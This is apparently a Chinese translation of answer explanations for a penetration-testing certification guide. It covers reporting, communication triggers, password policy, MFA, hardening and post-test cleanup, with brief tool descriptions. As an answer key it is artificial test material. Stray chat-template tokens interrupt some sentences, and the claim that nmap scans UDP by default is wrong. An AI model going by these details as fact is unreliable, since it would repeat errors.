`Metasploit` 是一个用于开发漏洞利用并在真实目标上进行测试的工具。`socks4a` 辅助模块是框架内的一个模块。该辅助模块提供了一个代理服务器，使用 `Metasploit Framework` 路由来中继连接。因此，使用 `use auxiliary/server/socks4a` 模块允许测试人员从互联网访问私有网络。

### 163. A
`Impacket` 是一个用于处理网络协议的 Python 类集合。`Impacket` 提供了广泛的工具，包括在捕获哈希后使用哈希进行身份验证的能力。`Metasploit` 的 SMB 捕获模式、`Responder` 和 `Wireshark` 都可以从广播中捕获 SMB 哈希，但在这种情况下，你还希望在捕获消息后能够使用哈希进行身份验证。

### 164. B
使用 `nmap` 的基本功能非常简单。对系统进行端口扫描只需要安装 `nmap` 并提供目标系统的主机名或 IP 地址。默认情况下，`nmap` 扫描 TCP 和 UDP 的 1,000 个最常见端口。然而，可供 TCP 和 UDP 服务使用的完整端口范围是 1–65,535。

### 165. B
在此场景中我们使用的是条件执行，因此只有一个子句会被执行。因此，在这种情况下，`if` 子句之后的<|message|> 代码将执行，使得 `elif` 或 `else` 子句无法执行。条件执行允许开发人员编写仅在满足某些逻辑条件时才执行的代码。最常见的条件执行结构是 `if..then..else` 语句。

### 166. B
`Shodan` 是一个流行的安全搜索引擎，提供预构建的搜索以及针对工业控制系统、数据库和其他常见搜索查询的搜索分类。`Shodan` 是一个搜索引擎，让用户能够使用多种过滤器找到连接到互联网的特定类型的计算机和设备。有些人将其描述为服务横幅的搜索引擎，服务横幅是服务器发送回客户端的元数据。使用 `Shodan` 进行渗透测试需要对横幅有一定的基本了解，包括 `HTTP` 状态码。

### 167. A
与 `Shodan` 类似，`Censys` 也是一个以安全为导向的搜索引擎。当你在 `Censys` 中深入研究一台主机时，你还会发现 `geoIP` 信息（如果可用），以及主机所暴露服务的综合摘要，提供更详细的信息。`GeoIP` 指的是通过识别终端的 IP 地址来定位计算机终端地理位置的方法。

### 168. C
`Sqlmap` 是一个开源工具，用于自动化针对具有数据库后端 Web 应用程序的 SQL 注入攻击。`Sqlmap` 是一个常用的开源数据库漏洞扫描器，允许安全管理员探测 Web 应用程序的数据库漏洞。对于此场景，`Sqlmap` 是一个专用的数据库漏洞扫描器，是最合适的工具。

# 第 5 章：报告与沟通

### 1. B
当你规范化渗透测试的数据时，你会汇总测试期间使用的所有不同工具和流程生成的所有数据，并将其格式化为一致且相关的形式。目标是使客户端能够阅读汇总数据并了解测试期间发生了什么以及何时发生。

### 2. D
你为渗透测试编写的最终报告应包含一个名为方法论的部分。在此部分中，你描述了用于执行测试的渗透测试方法论。在此场景中，这将是表明已遵循 `PCI DSS` 标准来执行测试的适当位置。

### 3. A
除其他事项外，术语 *态势感知* 指的是客户端与测试人员之间关于客户端网络安全态势的共同理解状态。

### 4. C
术语 *冲突消除* 指的是客户端与测试人员之间进行沟通以确定在渗透测试期间检测到的攻击是否来自授权的渗透测试人员，或者是否是由第三方黑客发起的真实攻击的过程。

### 5. B
术语 *降级* 指的是客户端与测试人员之间进行沟通以停止渗透测试期间使用的漏洞利用的过程，因为它们可能对网络产生不利影响。

### 6. A
除其他事项外，术语 *态势感知* 指的是渗透测试团队所有成员之间的共同理解状态，以确保每个团队成员都了解其他人的行动。

### 7. A
除其他事项外，术语 *态势感知* 指的是渗透测试团队所有成员之间的共同理解状态，以确保测试活动得到协调，在适当的时间进行。

### 8. B
术语 *降级* 指的是客户端与测试人员之间进行沟通以降低渗透测试期间使用的漏洞利用的强度过程，因为它们可能对网络产生不利影响。

### 9. C
术语 *冲突消除* 指的是客户端与测试人员之间进行沟通以确定在渗透测试期间检测到的攻击是否来自授权的渗透测试人员，或者是否是由第三方黑客发起的真实攻击的过程。

### 10. C
除其他事项外，术语 *态势感知* 指的是渗透测试团队所有成员之间的共同理解状态，以确保测试活动得到计划和协调，在适当的时间进行。

### 11. B
术语 *冲突消除* 指的是客户端与测试人员之间进行沟通以确定在渗透测试期间检测到的攻击是否确实是授权渗透测试的一部分，或者是否由第三方黑客发起的过程。

### 12. D
术语 *降级* 指的是客户端与测试人员之间进行沟通以降低漏洞利用的强度或完全停止它们的过程，因为它们可能导致不安全的情况。

### 13. B
术语 *受信任代理* 指的是目标组织内的个人，通常是 IT 管理员或经理，与渗透测试人员有直接的沟通渠道。该个人通常负责客户端与测试人员之间的冲突消除和降级沟通。

### 14. A
*阶段* 通信触发发生在渗透测试从一个阶段进展到另一个阶段时。

### 15. B
*关键发现* 通信触发发生在渗透测试人员发现一个如此严重的<|message|> 安全漏洞，以至于必须立即处理，而不是等到测试完成时。

### 16. D
*先前入侵指标* 通信触发发生在渗透测试人员发现网络或系统已被另一名攻击者之前入侵时。在这种情况下，测试人员通常会立即将发现情况告知客户端，而不是等到测试完成。

### 17. D
*阶段* 通信触发发生在渗透测试从一个阶段进展到另一个阶段时。

### 18. B
*先前入侵指标* 通信触发发生在渗透测试人员发现网络或系统已被另一名攻击者之前入侵时。在这种情况下，测试人员通常会立即将发现情况告知客户端，而不是等到测试完成。


# 渗透测试文档

## 通讯触发条件

19. B. 当渗透测试人员发现一个如此严重的 安全漏洞，必须立即处理而不是等待测试完成时，就会发生 `critical findings` 通讯触发条件。

20. C. 当渗透测试从一个阶段进展到另一个阶段时，就会发生 `stages` 通讯触发条件。

21. B. 当渗透测试人员发现一个如此严重的 安全漏洞，必须立即处理而不是等待测试完成时，就会发生 `critical findings` 通讯触发条件。

22. A. 当渗透测试人员发现网络或系统已被另一名攻击者之前入侵时，就会发生 `indicator of prior compromise` 通讯触发条件。在这种情况下，测试人员通常会立即将发现告知客户，而不是等到测试完成。

23. B. 当客户或测试人员在测试已经开始后决定将渗透测试的重点从商定的范围更改时，就会发生 `Goal reprioritization`。在此场景中，PCI DSS 测试正在被修改以包含对新型勒索软件漏洞的测试。

24. A. `Goal reprioritization` 发生在客户或测试人员在测试已经开始后决定将渗透测试的重点从商定的范围更改时。在此场景中，传统灰盒测试中已添加了黑盒组件。

## 数据规范化

25. B. 当你对渗透测试的数据进行规范化时，你会汇总测试期间使用的所有不同工具和流程生成的所有数据，并将其格式化为一致且易于理解的形式。

## 报告结构

26. B. 在完成渗透测试后创建书面发现报告时，你应在方法论部分识别用于进行测试的标准或指南。在此示例中，你应告知读者你使用了 NIST 800-115 方法论。

27. A. 在完成渗透测试后创建书面发现报告时，你应在执行摘要中提供测试和结果的高层次概述。通常，这是报告的第一部分，面向非技术受众。

28. D. 在完成渗透测试后创建书面发现报告时，你应在指标和度量部分报告你的风险评级。这些评级使读者能够优先考虑风险，并对随时间进行的渗透测试进行比较。

29. A. 在完成渗透测试后创建书面发现报告时，你应在执行摘要中提供测试和结果的高层次概述。通常，这是报告的第一部分，面向非技术受众。

30. B. 在完成渗透测试后创建书面发现报告时，你应在方法论部分识别用于进行测试的标准或指南。在此示例中，你应告知读者你使用了 EC-Council 的 CEH 方法论。

31. C. 在完成渗透测试后创建书面发现报告时，你应在报告的发现和补救措施部分列出你发现的漏洞，以及你是如何发现它们的。

32. C. 在完成渗透测试后创建书面发现报告时，你应在报告的发现和补救措施部分列出你发现的漏洞，以及你是如何发现它们的以及客户可以采取什么措施来解决问题。在此示例中，你应在此部分建议他们安装来自 Microsoft 的 MS17-010 – Critical 更新。

33. D. 在完成渗透测试后创建书面发现报告时，你应在指标和度量部分报告你的风险评级。这些评级使读者能够优先考虑风险，并对随时间进行的渗透测试进行比较。

34. E. 在完成渗透测试后创建书面发现报告时，你应在结论部分报告你的建议。

35. C. 你在书面发现报告的发现和补救措施部分包含的信息通常会受到客户风险承受能力的限制。例如，风险承受能力较高的组织可能希望你只包含有关你发现的高风险或关键风险漏洞的信息，而不报告中等或低风险漏洞。

36. E. 在完成渗透测试后创建书面发现报告时，你应在结论部分报告你的建议，包括你认为客户应进行后续渗透测试的时间。

## 安全存储

37. D. 通常，渗透测试完成后报告没有法定的存储时间。你需要存储客户报告的时间通常由你与客户的合同规定。

38. D. 书面发现报告包含高度敏感信息，因此应安全处理。它不应以易于被盗的方式存储。在此场景中，将报告存储在文件服务器上的加密文件中，会使文件比列出的其他选项更难被盗。

39. A. 书面发现报告包含高度敏感信息，因此应安全处理。它不应以易于被盗的方式存储。在此场景中，将报告的纸质副本存放在已用螺栓固定在地板上的上锁文件柜中，会使报告比列出的其他选项更难被盗。

40. A. 书面发现报告包含高度敏感信息，因此应安全处理。它不应以易于被盗的方式存储。在此场景中，将文件刻录到光盘并存放在安全保险箱中，会使报告比列出的其他选项更难被盗。

41. B. 书面发现报告包含高度敏感信息，因此应安全处理。它不应以易于被盗的方式存储。在此场景中，将文件保存到加密闪存驱动器并存放在安全柜中，会使报告比列出的其他选项更难被盗。

## 安全处置

42. C. 书面发现报告包含高度敏感信息，因此应安全处置。它不应以允许被盗或重建的方式处置。在此场景中，擦除驱动器将使从驱动器中恢复文件变得困难得多。

43. D. 书面发现报告包含高度敏感信息，因此应安全处置。它不应以允许被盗或重建的方式处置。在此场景中，粉碎文件将使从报告中恢复数据变得困难得多。

44. A. 书面发现报告包含高度敏感信息，因此应安全处置。它不应以允许被盗或重建的方式处置。在此场景中，物理销毁廉价闪存驱动器将使从报告中恢复数据变得困难得多。

45. B. 书面发现报告包含高度敏感信息，因此应安全处置。它不应以允许被盗或重建的方式处置。在此场景中，物理销毁光盘将使从报告中恢复数据变得困难得多。


# 安全概念摘要

## 缓解策略

46. A. 对 `VPN` 连接实施多因素认证是技术缓解策略的一个例子。

47. B. 为所有员工实施定期的安全意识培训是基于人员缓解策略的一个例子。

48. C. 在员工离开组织时实施离职流程是基于流程缓解策略的一个例子。

49. B. 要求 IT 员工通过网络安全认证考试是基于人员缓解策略的一个例子。

50. A. 要求使用复杂密码并实施账户限制是技术缓解策略的例子。

51. B. 聘用具有网络安全经验的额外 IT 员工是基于人员缓解策略的一个例子。

52. C. 禁止员工使用外部基于云的服务例如 `Google Drive` 是基于流程缓解策略的一个例子。

53. A. 在主入口实施防尾随门禁是技术缓解策略的一个例子。

54. A. 实施定向无线天线并调整接入点功率水平以防止信号辐射是技术缓解策略的例子。

55. C. 要求付款需多重审批是基于流程缓解策略的一个例子。

56. B. 对员工进行安全意识培训是基于人员缓解策略的一个例子。

57. D. 在此提供的选项中，修复共享本地管理员凭据的最佳建议是简单地随机化这些凭据。否则，入侵一台桌面的本地管理员密码将暴露组织中所有其他桌面。

58. B. 在此提供的选项中，修复共享本地管理员凭据的最佳建议是实施来自 Microsoft 的本地管理员密码解决方案 (`LAPS`)。该解决方案定期随机化本地管理员密码并将这些密钥保存在 `Active Directory` 中。

## 密码策略和账户安全

59. B and C. The `Password must meet complexity requirements` 和 `Minimum password length` `Group Policy` 设置可用于强制执行一定程度的密码复杂度。默认情况下，`Password must meet complexity requirements` 策略要求密码至少为六个字符长，并且包含以下四个类别中的三个类别的字符：大写字母、小写字母、数字和特殊字符。最小密码长度定义了密码可能包含的最少字符数。

60. A. `Enforce password history` `Group Policy` 设置决定用户必须使用多少个唯一的密码后才能再次重用旧密码。配置此策略有助于增强安全性，通过防止用户重用旧密码。

61. D. `Maximum password age` `Group Policy` 设置决定用户可以在被要求将其更改为新密码之前保留同一密码的时间长短。一旦该时间段过去，用户将被强制创建新密码。

62. C. `Minimum password age` `Group Policy` 设置决定用户必须保留同一密码多长时间后才允许将其更改为新密码。在该时间段过去之前，用户被强制保留同一密码。这可防止用户不断更改密码以试图规避 `Enforce password history policy` 设置。

63. A. `chage` 命令可用于 Linux 系统以配置用户账户的密码老化。

64. D. `Account lockout threshold` `Group Policy` 设置决定在账户被锁定之前用户允许进行的失败登录尝试次数。被锁定的账户在被管理员解锁或账户锁定时间段过去之前无法再次使用。此策略设置可以通过在仅几次猜测尝试后锁定账户来帮助防止暴力破解攻击。

65. B. `Account lockout duration` `Group Policy` 设置决定被锁定账户在自动解锁之前保持锁定多长时间。此策略设置通过严重增加进行攻击所需的时间来帮助防止暴力破解攻击。

66. C. `Reset account lockout counter after` `Group Policy` 设置决定在失败登录尝试计数器重置为 0 之前，失败登录尝试后必须经过多长时间。此策略设置通过显著增加进行攻击所需的时间来帮助防止暴力破解攻击。

67. A. `chage` 命令可用于 Linux 系统以在特定时间后自动锁定用户账户。这可防止陈旧的用户账户被攻击者或不满的前员工用于获得未经授权的访问。

68. A. `Store passwords using reversible encryption` 策略极不安全。它包含在现代部署中以提供与旧应用程序的向后兼容性。启用此策略的客户应被告知安全后果，并考虑升级到不需要它的新应用程序。

69. B. 由于该应用程序是在内部开发的，客户应该能够重写代码，使密码在保存到数据库之前由应用程序加密。

70. A. `chage` 命令可用于 Linux 系统以配置用户账户的密码老化。例如，如果用户在一定天数后未更改密码，可使用它来锁定用户账户。

71. C. 彩虹表是预先计算的哈希值表，可用于反转哈希函数。例如，如果明文密码已通过哈希保护，您可能可以使用彩虹表来反转哈希函数并暴露原始明文密码。

72. A. 对哈希加盐涉及向哈希操作添加额外的随机数据。此机制通常用于保护哈希密码不被反向哈希（这将暴露明文密码）。

73. B. 密钥拉伸涉及多次将待哈希值通过哈希函数运行。这增加了哈希每个密码所需计算时间，但也显著增加了预计算攻击有效所需的彩虹表大小。

## 身份验证因素和多因素身份验证

74. C. 用户名和密码都是“你知道”的例子，因此不构成多因素身份验证。指纹扫描是“你是谁”的例子。要求指纹扫描将提高系统的安全性，因为用户登录时需要来自多个类别的身份验证因素。

75. A. `PIN` 是“你知道”的一个例子。

76. C. 视网膜扫描是“你是谁”的一个例子。理论上，没有两个人应该具有这种类型因素的相同属性。

77. C. 到组织内部 `LAN` 的有线连接是“你所在位置”的一个例子。身份验证可能允许也可能不允许，基于此因素。

78. A. `RFID` proximity reader 可用于防止用户在未在系统物理位置时对系统进行身份验证。

79. C. 要求用户提供生物识别扫描（你是谁）以及 `PIN`（你知道）构成多因素身份验证。

80. B. 要求用户提供密码（你知道）加上安全令牌生成器（你拥有）构成多因素身份验证。

81. D. 双因素身份验证 (`2FA`) 要求用户提供来自两个不同类别的因素。在这种情况下，要求用户提供用户名（你知道）、`PIN`（你知道）和面部识别扫描（你是谁）构成 `2FA` 身份验证。


# 安全加固指南

### 82. B.
三因素认证（3FA）要求用户提供来自三个不同类别的因素。在这种情况下，要求用户提供用户名（你所知道的）、PIN（你所知道的）、指纹扫描（你所是的）以及一次性密码（你所拥有的）构成 3FA 认证。

### 83. A.
在这种情况下，您可以建议重写应用程序，使所有用户输入在提交到后端数据库之前都经过清理。例如，假设应用程序中包含一个字段，用户应在其中输入电话号码。程序员可以验证输入的信息仅包含数字（并且仅为电话号码的正确位数）。这可以防止恶意攻击者向这些字段提交 SQL 语句，从而可能泄露数据库中的信息。

### 84. A.
在这种情况下，您可以建议重写应用程序，使数据得到转义。转义是通过剥离不需要的信息，例如格式错误的 HTML 或脚本标签来保护数据的过程。这可以防止数据被视为代码。对数据进行转义有助于在为最终用户呈现信息之前保护信息，并有助于防止 SQL 注入以及跨站脚本攻击。

### 85. C.
使用参数化查询通常被认为是对 SQL 注入攻击的防御措施，比清理用户输入更好。使用参数化查询时，使用带有绑定变量的预处理语句来访问 SQL 数据库。

### 86. A.
服务器上启用的每个网络服务都会扩大该服务器的攻击面。因此，只应安装实际需要的服务。在这种情况下，Web 服务器可能不需要运行 DNS、DHCP、打印或电子邮件服务。这些服务应被移除。

### 87. B and D.
服务器上启用的每个网络服务都会扩大该服务器的攻击面。因此，只应安装实际需要的服务。在这种情况下，域控制器不应运行 Hyper-V，后者用于虚拟化。同样，联合服务仅在一种 Active Directory 域与另一个 Active Directory 域链接（“联合”）的情况下使用。

### 88. A and E.
要加固基于 Windows 的计算机系统上的用户帐户，您应使用组策略配置帐户锁定。这有助于减缓甚至防止暴力破解或密码猜测攻击。您还应立即禁用或删除所有未使用的用户帐户。

### 89. B and D.
要加固基于 Windows 的计算机系统上的用户帐户，您应使用组策略强制执行密码复杂性要求。例如，您可以要求密码具有一定的长度并包含特定的字符组合。您还应使用组策略强制执行密码老化要求。这要求用户定期更改密码。

### 90. E.
要加固基于 Windows 的计算机系统上的网络通信，您应将对计算机的网络访问限制为仅经过身份验证的用户。

### 91. A.
要加固基于 Windows 的计算机系统上的网络通信，您应正确配置 Windows 防火墙。首先，您应关闭所有端口，以确保不会意外遗留开放端口。然后仅为已安装且系统需要的服务开放端口。

### 92. A and C.
要加固基于 Windows 的计算机系统，您应考虑安装额外的系统 RAM，然后禁用 Windows 分页文件。这可以防止本应仅以未加密格式存储在 RAM 中的敏感数据被写入硬盘分页文件。您还应禁用任何不需要的服务。

### 93. D.
要加固基于 Windows 的计算机系统，您应禁用自动运行。这有助于防止在插入受感染的光盘或 USB 驱动器时恶意软件被安装到系统上。

### 94. A.
要加固基于 Linux 的服务器系统，您应确保通过启用和配置 `iptables` 运行基于主机的防火墙。您应首先在防火墙中关闭所有网络端口，然后仅开放特定系统上运行的服务所需的端口。

### 95. B.
要加固基于 Linux 的服务器系统，您应确保对系统的远程访问使用 `SSH` 而不是 `Telnet`。`SSH` 会加密 `SSH` 服务器和 `SSH` 客户端之间的所有网络流量。另一方面，`Telnet` 会以明文传输所有数据，包括身份验证凭据。

### 96. A.
要加固服务器系统，您应确保仅安装其角色所需的服务和应用程序。可使用 `netstat` 命令检查系统上的监听网络端口。这将显示系统上正在运行的服务。

### 97. B.
要加固服务器系统，您应确保所有用户帐户都分配了密码。一种方法是查看 `/etc/shadow` 文件，查找未分配密码的任何帐户。

### 98. D.
要加固服务器系统，您应确保所有陈旧的用户帐户都被禁用或删除。在这种情况下，客户不想删除帐户，因为临时或合同用户将来可能会回来。要手动锁定帐户，可以使用 `passwd -l` 命令，后跟用户名。

### 99. C.
加固服务器系统的一种方法是将其重新配置为将日志条目保存到网络其他位置的专用日志服务器。这使得攻击者在入侵后更难掩盖其痕迹，因为日志文件不存储在本地。

### 100. A.
FTP 协议不会加密系统之间的数据传输。这意味着身份验证信息以及数据本身在网络传输过程中会暴露。为了解决这个问题，您应建议客户改用 FTPS 而不是 FTP。FTPS 协议使用 SSL 或 TLS 来加密 FTP 会话，因为它们会加密数据。

### 101. D.
`Telnet` 协议不使用加密来保护网络传输，这意味着对远程系统的身份验证凭据以及传输的数据都以明文发送。为了解决这个问题，您应建议客户使用安全外壳（`SSH`）服务器和客户端进行远程服务器访问。`SSH` 会加密身份验证信息以及系统之间的数据传输。

### 102. A.
`rcp` 实用程序不使用加密来保护网络传输，这意味着对远程系统的身份验证凭据以及传输的数据都以明文发送。为了解决这个问题，您应建议客户使用 `scp` 命令在服务器之间复制文件。`scp` 实用程序是 `SSH` 工具套件的一部分，可加密身份验证信息以及系统之间的数据传输。

### 103. B.
在这种情况下，可以通过更改无线控制器上的默认管理员用户名和密码来加固无线网络。默认用户名和密码列表在互联网上很容易获得，不应使用。

### 104. A and B.
在这种情况下，可以通过实施 MAC 地址过滤来加固无线网络。这通过防止未经授权的系统连接到无线网络提供了一层基本保护。然而，一旦识别出已知的良好地址，MAC 地址就很容易被伪造。因此，可以通过实施 802.1x 身份验证进一步加固无线网络。这通过实施单独的身份验证服务器（如 RADIUS 服务器）消除了与预共享密钥相关的弱点。


### 105. A and D
在此场景中，无线网络可以通过使用定向接入点来加固。这将有助于防止信号辐射到停车场。此外，应在无线网络上禁用 DHCP。虽然这使得管理变得困难得多，但它也防止了入侵无线网络的攻击者自动获取访问网络资源所需的所有配置信息。

### 106. B and C
在此场景中，路由器可以通过为特权访问创建加密密码来加固。这是通过在路由器上使用 `enable secret` 命令完成的。此外，应建立程序来审查声称是 IT 供应商代表的访客。

### 107. A
渗透测试后，务必撤销你所做的一切。最好的完成方式是在进行测试时仔细记录你所做的一切。这样，你将拥有需要恢复的内容的记录以及清理完成后应有的样子。

### 108. A and C
渗透测试后，务必撤销你所做的一切。例如，如果你设置了任何 shell 会话，特别是反向 shell，你需要确保它们被删除。此外，你应在测试后清理时记录你所做的一切。在清理过程中，你可能会无意中破坏某些东西。如果发生这种情况，拥有你所做操作的文档将非常宝贵。

### 109. B
渗透测试后，务必撤销你所做的一切。例如，如果你创建了任何后门用户账户，你应确保删除这些凭据。不应保留这些，因为它们可能被真正的攻击者日后用来入侵系统。

### 110. A
渗透测试后，务必撤销你所做的一切。例如，必须卸载你在测试期间用于执行利用的任何工具或实用程序。

### 111. A
渗透测试后，务必向客户传达发生了什么以及发现了什么。在发现证明过程中，你向客户传达所发现内容的详细证据。客户随后可利用这些信息修复发现的问题。

### 112. C
渗透测试完成后，测试人员通常会要求客户同意（通常以书面形式）测试人员已履行与客户最初签署的合同。此过程称为 *客户验收*。

### 113. C
渗透测试完成后，客户要求测试人员返回并重新测试一切以确保测试期间发现的问题已得到修复的情况并不少见。此过程有时称为 *后续行动*。

### 114. A and C
渗透测试完成后，你应与团队会面并讨论经验教训。你应确定哪些做得好以及需要改进的地方。例如，你应讨论哪些利用成功了哪些没有。你应记录使用这些利用的最佳实践，以便下次进行渗透测试时不必重新学习。

### 115. C
通用漏洞评分系统（CVSS）是评估安全漏洞严重程度的行业标准。它提供了一种根据多种指标对每个漏洞进行评分的技术。安全分析师经常使用 CVSS 评级来优先处理响应措施。每个指标都给出描述性评级和数值评分。

### 116. A and B
这些可能是需要立即与客户沟通的情况。以下为一些常见的渗透测试沟通触发条件。沟通触发应发生在测试阶段完成、发现关键发现或发现先前入侵迹象时。在此场景中，如果系统在尝试测试后变得不可用，并且系统显示先前未经授权访问的迹象，我们希望联系客户。

### 117. D
在此场景中，客户没有预算立即修复所有发现的漏洞。在这种情况下，最好建议客户先修复最关键的漏洞，然后在资金可用时修复其他关键漏洞。

### 118. A
在此场景中，由于公共 Web 服务器上有多个高编号端口正在监听。最佳建议是禁用不必要的服务，因为客户仅使用端口 443。不必要的服务会带来安全风险，因为它们增加了攻击面，为潜在攻击者提供了更多尝试利用系统的途径。

### 119. C
系统加固，也称为操作系统加固，有助于最大限度地减少安全漏洞。系统加固的目的是尽可能消除安全风险。这通常通过从计算机中删除所有非必要的软件程序和实用程序来实现。通过删除未使用的程序、账户、功能、应用程序、端口、权限、访问等进行系统加固的目标是攻击者获得网络访问的机会更少。系统加固活动有几种类型。它们包括以下内容：
* 应用加固
* 操作系统加固
* 服务器加固
* 数据库加固
* 网络加固

### 120. B, E, and G
在此情况下，由于测试人员能够入侵单个工作站并能够在网络中横向移动，给客户的最佳建议如下：
* 使用多因素身份验证。多因素身份验证（MFA）是一种身份验证方法，用户只有在成功向身份验证机制出示两项或更多证据（或因素）后才会被授予访问权限。
* 提高最小密码复杂度。复杂密码以独特方式使用不同类型的字符来提高安全性，使攻击者更难破解。
* 启用全盘加密。全盘加密（FDE）是在硬件级别进行的加密。FDE 通过自动将硬盘上的数据转换为除拥有“撤销”转换密钥的人之外无法理解的形式来工作。

### 121. B
在此场景中，问题指出渗透测试人员正在编写一份“概述整体风险水平”的报告。鉴于此陈述，测试人员将把此信息包含在执行摘要中。执行摘要是报告中最重要的部分。它应以清晰的方式撰写，传达报告中的所有重要结论，并以“通俗易懂的术语”书写。测试人员应以通俗语言解释发现的内容，并以客户能够理解的术语描述对业务的风险。

### 122. B
在此场景中，由于渗透测试人员发现了关键漏洞，测试人员应立即向客户通报发现的详细信息。

### 123. A
在此场景中，攻击者使用了重定向。安全分析师应阻止 URL 重定向。URL 重定向是 Web 服务器将用户从一个 URL 发送到另一个 URL 的功能。重定向通常采用自动重定向的形式，使用 HTTP 协议中定义的一系列状态码之一。因此，当 Web 浏览器尝试打开已被重定向的 URL 时，会打开一个具有不同 URL 的页面。


# Questions 124-136

## 124. A, F, and G
在此场景中，测试人员应建议客户提高密码复杂度要求，因为测试人员能够通过使用字典攻击破解密码。测试人员还应建议所有员工接受安全意识培训，因为当测试人员使用钓鱼技术时，是 IT 部门的一名成员泄露了相关信息。测试人员还应建议升级用于 `VPN` 解决方案的密码套件。密码套件是一组算法，有助于保护使用传输层安全 (`TLS`) 或安全套接层 (`SSL`) 的网络连接。密码套件通常包含的算法集合包括密钥交换算法、批量加密算法和消息认证码 (`MAC`) 算法。

## 125. A
在此场景中，测试人员应建议客户启用 HTTP 严格传输安全 (`HSTS`)。`HSTS` 响应头允许网站告知浏览器只能使用 `HTTPS` 访问，而不能使用 `HTTP`。它是一种可选的安全增强功能，由 Web 应用程序通过使用特殊的响应头指定。一旦受支持的浏览器收到此头，该浏览器将阻止任何通过 `HTTP` 发送到指定域的通信，而是将所有通信通过 `HTTPS` 发送。

## 126. C
在此场景中，将客户组织的风险承受能力纳入执行摘要非常重要。风险承受能力基本上是指组织在投资方面愿意承担多少风险。任何类型的投资都存在风险，但一个人能够承受多少风险就是其风险承受能力。这可能因组织而异。风险承受能力无法设定一个固定值。

## 127. D
在此场景中，由于测试是由一名在职初级管理员执行的，公司最好向专业的渗透测试公司发出建议书请求 (`RFP`)，以核实评估结果并向公司提供任何漏洞发现。`RFP` 是一份征求提案的文件，通常通过招标流程进行。

## 128. A
在此场景中，询问安全分析师首先应该做什么。一旦识别出漏洞，就需要评估风险以及它对组织的影响。评级将决定是否足够安全以继续工作，还是需要采取额外的控制措施来降低或消除风险。评级取决于事件发生的可能性和漏洞的严重性。这是通过确定可能性为低、中还是高，然后对影响做同样的处理来完成的。`0 to 9` 规模分为三个部分：`0 to <3` 为低，`3 to <6` 为中，`6 to 9` 为高。

## 129. A
在此场景中，最好在经验教训阶段重新审视这种情况。经验教训会议是团队在没有客户在场的情况下聚在一起讨论测试过程和结果的机会。团队成员应自由讨论测试并提出改进建议。经验教训会议是突出测试期间使用的任何创新技术的好机会，这些技术可能在未来的任务中使用。

## 130. B
在此场景中，告知客户的最佳选择是使用智能卡和 PIN。 多因素身份验证 (`MFA`) 是一种安全系统，要求从不同类别的凭证中提供一种以上身份验证方法来验证用户在登录或其他交易中的身份。身份验证类别包括你所知道的、你所拥有的和你本身。

## 131. A
最佳建议是禁用任何不需要的服务。不必要的服务会带来安全风险，因为它们增加了客户网络的攻击面，为潜在攻击者提供了多种尝试利用系统的途径。攻击面是给定计算设备或网络中可供潜在黑客访问的漏洞的总和。

## 132. A
本地管理员密码解决方案 (`LAPS`) 是 Microsoft 用于管理管理凭据的工具。它用于使用 `Active Directory` 随机化本地管理员账户凭据。有限管理员密码协助 (`LAPA`) 不存在。`Nessus` 是一款漏洞扫描器，而 `Metasploit` 是一个用于执行和攻击网络的利用框架。

## 133. D
执行摘要不应包含技术细节。执行摘要是报告中最重要的部分。它应以通俗易懂的方式撰写，清晰地传达报告中的所有重要结论。测试人员应以通俗的语言解释发现的内容，并以客户能够理解的术语描述对业务的风险。

## 134. B, C, and D
`CompTIA` 强调了三个重要的任务后清理活动：
* 在渗透测试期间删除系统上安装的任何 shell。
* 删除在测试期间安装的任何测试人员创建的账户、凭据或后门。
* 删除在测试期间安装的任何工具。
漏洞修复是后续活动，并非测试的一部分。测试人员应删除在测试期间安装的任何 shell 或其他工具，以及删除他们创建的任何账户或凭据。

## 135. D
在此场景中，您正在讨论技术。技术控制也为许多安全威胁提供了有效的防御。补救活动有三个主要类别。类别为人员、流程和技术。

## 136. B
在此场景中，您和同事正在讨论您拥有的东西。物理对象可用作身份验证机制。寻求保护敏感信息和关键资源的组织应实施多因素身份验证。多因素身份验证实现结合了来自不同身份验证类别的两种或更多身份验证机制。身份验证类别包括你所知道的、你所拥有的和你本身。

# Chapter 6: Practice Exam 1

## 1. A
保密控制旨在防止披露攻击。尽管保密协议 (`CAs`) 是有助于在双方之间执行保密关系的法律文件，但此问题询问为什么维护发现的保密性很重要。如果攻击者在渗透测试期间获悉发现内容，他们可能会利用这些信息入侵客户的网络。

## 2. A and B
交战规则 (`ROE`) 应始终包括测试将进行的 timeline 以及任何法律的审查，尤其是管理客户的任何法律，以确保不违反任何规定。之前测试过的其他组织列表或客户竞争对手列表不需要包含在 `ROE` 文档中。客户网络的详细地图对于 `ROE` 不需要，但可能需要用于渗透测试。

## 3. D
交战规则 (`ROE`) 已按此场景所需定义。`ROE` 关键要素包括以下内容：
* 任务的时间线以及何时可以进行测试。
* 包含/排除哪些位置、系统、应用程序或其他目标。此外，任何特殊的技术限制都应在 `ROE` 中解决。
* 在渗透测试期间收集的任何信息的处理要求。
* 预期行为。任何防御性行为，例如 shunning、黑名单或其他主动防御可能会限制渗透测试的价值。
* 将投入测试的资源。


# 渗透测试文档

## 渗透测试前检查清单
* 应处理的任何法律问题，包括影响客户组织、渗透测试团队、任何远程位置以及在范围内的任何服务提供商的任何监管问题的摘要。
* 沟通将在何时以及如何进行。
* 在出现特定事件时应联系谁，例如存在入侵证据、意外违反 ROE、已发现的关键漏洞，或其他需要立即关注的事件。
* 谁被允许联系渗透测试团队。

### 4. D.
在进行渗透测试之前，您必须获得客户组织高级管理层的书面许可才能开始测试。通过口头或电子邮件获得许可是不被接受的。从 IT 员工处获得许可也是不可接受的。

### 5. A and E.
在此场景中，本次 engagement 的范围仅限于内部网络。Microsoft Office 365、Google Docs 和 Microsoft Azure 都是由第三方托管的基于云的服务，因此被视为超出范围。Active Directory 用户以及在组策略中定义的密码策略将被视为在范围内。

### 6. A and B.
在此场景中，您正在进行白盒评估。因此，在测试过程中请求内部架构图时，您通常应获得网络图和设施地图等文档。您可以使用这些信息来帮助绘制网络拓扑结构并定位关键基础设施设备，例如交换机、路由器和服务器。

### 7. A.
简单对象访问协议（SOAP）是一种消息协议规范，定义了结构化信息如何在 Web 应用程序之间交换。SOAP 项目文件可以从 Web 服务描述语言（WSDL）文件创建。

### 8. B.
Swagger 是定义 REST API 的开放规范。Swagger 文档是 SOAP 基于 Web 服务的 WSDL 文档的 REST API 等价物。Swagger 文档指定了 REST API 中可用的资源列表以及可在这些资源上调用的操作。它还指定了操作的参数列表，包括参数的名称和类型、参数是必需还是可选，以及有关参数可接受值的信息。因此，访问 Swagger 文档可为测试人员提供 API 工作方式的良好视图，从而了解如何对其进行测试。

